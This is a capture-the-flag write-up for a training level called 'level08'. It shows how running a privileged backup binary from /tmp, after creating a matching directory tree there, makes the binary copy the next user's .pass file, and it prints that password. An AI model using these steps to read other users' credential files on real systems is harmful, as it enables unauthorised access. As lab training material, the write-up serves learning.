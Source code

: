 # Level 08
*password : 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC*

## Analyze

```
scp -P 4242 level08@192.168.56.109:level08 binary/
```

```
$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

- try to create `./backups/home/users/level09`
```
$ touch backups/test
touch: cannot touch `backups/test': Permission denied
$ touch test
touch: cannot touch `test': Permission denied
```

- only path i have permissions : `/tmp`
```
$ cd /tmp
```

- create `backups/home/users/level09/`
```
$ mkdir -p backups/home/users/level09
```

- execute `level08` from `/tmp`
```
$ /home/users/level08/level08 /home/users/level09/.pass
$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
